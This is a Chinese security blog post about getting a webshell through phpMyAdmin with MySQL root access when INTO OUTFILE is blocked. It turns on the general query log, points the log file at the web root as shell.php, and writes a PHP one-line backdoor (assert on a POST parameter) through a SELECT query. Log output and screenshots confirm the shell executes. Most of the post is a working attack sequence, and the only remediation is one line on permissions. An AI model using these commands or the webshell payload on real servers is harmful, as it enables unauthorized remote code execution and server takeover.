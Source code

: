 ```yaml
---
title: phpMyAdmin新姿势getshell
layout: post
date: '2017-03-23'
categories: bypass
permalink: "/archivers/2017-03-05/1"
description: 假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？
---
```


假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？
<!--more-->

* 目录
{:toc}


## 0x00 设想

假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？

本文旨在研究新的方法，如果在INTO OUTFILE禁用的情况下，或许会少很多思路了。

这里的禁用是完全（权限）禁用，而不是拦截行为。

## 0x01 常规方法测试

好了，入正题，我目前拥有一台WIN XP虚拟机，上面的服务如下：

* Apache 2.4.23（此环境与本文实现的攻击关系不大）
* PHP 5.4.45（此环境与本文实现的攻击关系不大）
* phpMyAdmin 4.6.6（此环境与本文实现的攻击关系不大）
* MySQL 5.5.53 - MySQL Community Server (GPL) （5.0以上）
* 绝对路径：`C:\phpStu\WWW\`

目前大部分站点都使用了MySQL 5.0以上的版本

我们先尝试一下使用SQL表达式INTO OUTFILE 去getshell：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-92a62b6bce5a6c66aa07dcae86a45b2e_r.jpg)

可以看到已经被阻止了 ，具体原因我们在这里讲一下：

错误提示

```
#1290 - The MySQL server is running with the --secure-file-priv option so it cannot execute this statement.
```
![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-103d1faf4ef1790dda328ae855828eb0_hd.jpg)

secure-file-priv这个全局变量是指定文件夹作为导出文件存放的地方，默认情况下，secure-file-priv是一个空值（NULL）。我们现在设置为网站的根目录，再去尝试使用INTO OUTFILE getshell。

但是在我们使用SQL修改的时候，发现这个值是只读的。

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-6120a906737c3c20d87cd3ae4c0f3db5_r.jpg)

经过查阅资料知道，这个值只能通过修改MySQL的配置文件来达到修改的目的。

## 0x02 新姿势测试

这些希望破灭以后我并没有沮丧，我相信这些研究都是有用的，有助于我的思考。

于是把目光转向了MySQL的特性，开始测试MySQL全局变量对MySQL本身的影响。

最后我发现MySQL 5.0+的版本会自动创建日志文件，那么在服务运行的情况下修改全局变量也是可以变动文件位置的，但是必须要对生成日志的目录有可读可写的权限。（Linux环境下可能会比较苛刻，因为站点目录是一个用户，MySQL是另外一个用户，权限管控较为严格，主要取决于权限配置是否得当）

OK，不废话，开始测试~~

首先呢，介绍两个MySQL全局变量（general_log、general_log file）

* general log 指的是日志保存状态，一共有两个值（ON/OFF）ON代表开启 OFF代表关闭。
* general log file 指的是日志的保存路径。


我们先查看一下全局变量 ~

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-7937fe1a956ff7ef604a1b6a8d0b803d_r.jpg)

目前是OFF状态，也就是不保存SQL到日志文件中。

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-c9c5b6ab51e7f8f55eaac27d3529f189_r.jpg)

这里强调一下保存过程，general_log是保存每一条你执行的SQL到文件中。目前为OFF，所以文件还没有被创建，我们修改为ON尝试让MySQL创建文件：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-905b73ccaab7b944d18b92816250c10d_hd.jpg)

我们去主机上的目录里看看这个文件是否存在：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-edf0809c6bd914d9127e220060f60395_r.jpg)

贴出文件内容：

```
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit
```

目前是没有什么内容的。我们在控制台随便执行一个SQL：

```
SELECT MD5('admin');
```
![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-e8be82b148faa920ceda19d592820470_hd.jpg)

贴出新的日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit	
170323 18:12:55	   36 Connect	root@localhost on 
		   36 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   36 Init DB	mysql
		   36 Query	SHOW MASTER LOGS
		   36 Quit	
		   37 Connect	root@localhost on 
		   37 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   37 Quit	
170323 18:13:21	   38 Connect	root@localhost on 
		   38 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   38 Query	SELECT MD5('admin')
		   38 Quit

```
可以清除的发现，日志文件同步保存了我们所有的SQL语句……猥琐的思路从脑海中喷发而出~ 我们要在站点目录下使用MySQL的日志功能创建一个shell.php

首先查看目录中不存在shell.php这个文件：
![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-f7cdabc60f3f39b2ca25a3f486bb23b4_r.jpg)

（确保general_log 的值已经为ON，前面已经设置过了）然后设置general_log_file的值为我们一句话木马的绝对路径：

```sql
SET global general_log_file='C:/phpStu/WWW/shell.php';
```

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-66414717c8f4be26b9af449ab2634c06_r.jpg)

我们再去看看站点下是否创建了这个文件：



![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-e8273a7d3fdc1fbb990d8f911d17b5b9_r.jpg)


创建成功，并且文件内容中也有日志的初始值。

我们现在写入一句话~ 强调一下，SQL就是SQL，在保存到日志中的时候不会解析转译符号，不知道大家能否理解，我举一个例子：

我们查询：

```
SELECT '<?php assert($_POST[\'admin\']);?>;
```

保存到日志中也会变成

```
SELECT '<?php assert($_POST[\'admin\']);?>';
```
php这边解析的时候就会报错，因此我们采用单引号与双引号公用的方式实现：

```
SELECT '<?php assert($_POST["admin"]);?>';
PS：$_POST中不用引号也可以~
```

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-0ae649932588d176756a432479ff62cf_r.jpg)

我们访问看看~

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-e5cc5693f6a7e55616cdfa62f605bddc_hd.jpg)

已经解析php了，我们同样测试一下是否能执行php代码吧 ~

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-b13043cfb90de8ac7a55aec067901aad_hd.jpg)

贴出日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
		   44 Quit	
170323 18:27:27	   45 Connect	root@localhost on 
		   45 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   45 Init DB	mysql
		   45 Query	SHOW MASTER LOGS
170323 18:27:28	   45 Quit	
		   46 Connect	root@localhost on 
		   46 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   46 Quit	
170323 18:28:01	   47 Connect	root@localhost on 
		   47 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   47 Query	SELECT '<?php assert($_POST["admin"]);?>'
		   47 Quit	
```

## 0x03 总结

在权限把控不严谨的情况下容易出现此类攻击，如果MySQL没有权限在站点根目录下创建文件的话也就不会发生这样的情况了。

修复方案就是权限把控好就可以了 ~
